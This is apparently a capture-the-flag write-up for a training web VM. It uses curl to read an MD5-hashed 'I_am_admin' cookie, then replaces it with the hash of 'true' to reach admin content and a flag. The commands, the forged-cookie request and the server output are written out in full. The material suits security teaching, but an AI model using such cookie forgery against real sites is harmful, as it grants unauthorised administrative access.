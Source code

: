 # Cookies

__curl -v -s 'http://192.168.99.101' -o out.file__

## Description
The command can send to url cookies.

## Form Outputs
Then we get the following output.
```
* Rebuilt URL to: http://192.168.99.101/
*   Trying 192.168.99.101...
* TCP_NODELAY set
* Connected to 192.168.99.101 (192.168.99.101) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.99.101
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.4.6 (Ubuntu)
< Date: Mon, 18 Sep 2023 19:41:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP/5.5.9-1ubuntu4.29
< Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Mon, 18-Sep-2023 20:41:50 GMT; Max-Age=3600
< 
{ [6905 bytes data]
* Connection #0 to host 192.168.99.101 left intact
```

## Flag
Let's convert [I_am_admit](#https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327) from md5. We get __false__. </br>
So what about __true__ ```echo -n 'true' | md5``` -> 'b326b5062b2f0e69046810717534cb09'
When wecompare the outputs with cookies true and false weget the next flag.
```
curl -s 'http://192.168.99.101' -o false.html
curl -s --cookie I_am_admin=$(echo -n 'true' | md5) 'http://192.168.99.101' -o true.html 
diff false.html true.html 
```

## Safety
We should learn about cookies and how they can be used to track user activity on a website. </br>
Specifically, you should learn how to use the curl command to send cookies to a URL and how to compare the output of two requests with different cookie values to determine if a flag is present. </br>
Additionally, you should be aware of the potential risks associated with cookies, such as the possibility of them being stolen or used for malicious purposes.